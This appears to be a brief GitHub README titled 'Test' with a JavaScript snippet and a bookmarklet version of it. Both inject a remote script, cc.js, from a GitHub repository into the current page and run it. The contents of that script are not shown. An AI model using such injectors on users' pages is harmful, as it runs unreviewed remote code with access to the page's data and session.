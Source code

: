 # Test

var s = document.createElement('script');
s.setAttribute('src','https://raw.githubusercontent.com/y2k/Test/master/cc.js');
document.head.appendChild(s);

javascript:var s=document.createElement("script");s.setAttribute("src","https://raw.githubusercontent.com/y2k/Test/master/cc.js"),document.head.appendChild(s);
